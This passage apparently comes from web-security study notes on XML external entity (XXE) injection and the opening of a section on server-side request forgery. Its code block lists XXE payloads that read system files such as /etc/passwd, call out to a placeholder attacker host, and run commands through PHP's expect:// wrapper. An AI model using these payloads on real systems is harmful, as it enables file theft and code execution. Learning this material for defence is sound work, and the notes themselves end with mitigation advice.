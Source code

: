 Other XXE variants:

``` xml
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >]><foo>&xxe;</foo>
<!ENTITY xxe SYSTEM "expect://id" >]> (rare)
```

PHP has a module called Expect that lets you run a command as it it was a file by using the `expect` protocol.

``` php
$stream = fopen("expect://ls", "r");
```

If installed, you can use XXE to get code execution

![xxe expect](../imgs/03-2-18_xxe-expect.png)

There are many ways to exploit an XML parse and get around any defences.

* You can use document type definitions (DTD) and entities to get past filters and nest payloads.
* You can use HTTP requests to send data to your own server

Useful links:

* [More notes](XXE.md)
* [XXE](ttps://portswigger.net/web-security/xxe)
* [Blind XXE](https://portswigger.net/web-security/xxe/blind)
* [XXE payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

tl;dr:

* Disable external entity processing
* Don't use PHP
* Don't use XML - most JSON parsing libraries are more secure (see [here](https://www.acunetix.com/blog/web-security-zone/deserialization-vulnerabilities-attacking-deserialization-in-js/))

Parser exploits are very relevant. The Internet moves rapidly and a lot of it still runs on XML. Furthermore, developers forget to take things out and manage old code. It you prod around any sites, you will most likely find things your shouldn't (be ethical though)

## Server-Side Request Forgery (SSRF)

**Server-side Request Forgery (SSRF)** is when an attacker tricks a web application into making requests to the internal system on their behalf.  
This typically works on URL based inputs by users; e.g. image import function from URL. It is possible to use other URLs; e.g. `file:///`, `gopher://`, `data://` and `dict://`
